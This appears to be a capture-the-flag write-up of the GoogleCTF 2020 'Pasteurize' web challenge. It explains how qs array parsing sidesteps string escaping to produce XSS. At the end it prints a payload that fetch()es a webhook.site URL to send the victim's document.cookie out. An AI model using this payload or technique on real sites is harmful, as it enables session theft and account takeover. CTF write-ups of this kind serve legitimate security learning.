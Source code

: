 ```yaml
---
title: "GoogleCTF 2020: Pasteurize"
date: 2020-08-23T17:35:14-06:00
draft: false
comments: false
images:
tags:
    - writeup
    - web
    - xss
---
```


This is the first challenge I worked on. I will soon upload a post on the second one. (As GoogleCTF 2020 ended on the day of this post, I will be omitting the flag from this article. I will update it once enough time has passed.)

## Let's Begin!

The challenge lets us load into the DOM whatever we want through this pastebin-esque function.

When you make a note, you have an option to share it with a "TjMike" Entity. Sign of XSS/CSRF attacks?

Looking into the source, whatever content we put into the note is immediately shoved into a javascript string. However, if you try to input quotation marks in there, the DOMpurify clean function escapes it. So, if we can get an unescaped quote in there, we can do whatever want. Let's focus on the comment.

Going to the ``/source`` endpoint takes us, well, directly to the webpage's app file. 

Of note are the app's use of using the Express BodyParser to operate on 'extended' mode (using the `qs` library instead of the `querystring` library).

{{< image src="/images/Google2020bodyparser.png" alt="Login" position="center" style="border-radius: 8px;" >}}

In the source we also see:

{{< image src="/images/google2020json.png" alt="Login" position="center" style="border-radius: 8px;" >}}

``JSON.stringify(unsafe)`` - if our content (unsafe) is a string, then the function simply adds additional quotation marks onto the string, and the ``slice(1,-1)`` function removes those extra quotations, before feeding it to the DOM to be rendered. What if our input isn't a string - what if it's an array? 

The [``qs``](https://www.npmjs.com/package/qs#parsing-arrays) library allows arrays to be parsed from HTTP requests if theyre stipulated as:

```
{
    array[]=a&array[]=b

    //array = [a,b]
}
```

When we make a note (POST request to ``/note``), intercept the request via burpsuite. Modify your query there. Change ``content=`` to ``content[]=`` (Alternatively, you can CURL your request to not deal with proxy settings).


{{< image src="/images/google2020pastalert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/google2020xss.png" alt="Login" position="center" style="border-radius: 8px;" >}}

If we go to the page, we see that an alert is prompted - aka, we have succesfully escaped the JS string and can write javascript code as normal. That being said, let's go ahead and craft a payload to xss TJMike (I am being lazy and reusing an old payload of mine from before and modifying it).

```
content[]=; document.getElementById('note-content').onLoad = fetch('https://webhook.site/64627794-30a4-466d-b93a-537bdebca744', {method:'POST', body:JSON.stringify({data:document.cookie})});const uwu = 
```

Share our note to TJMike. Wait for our server to grab their cookie. 

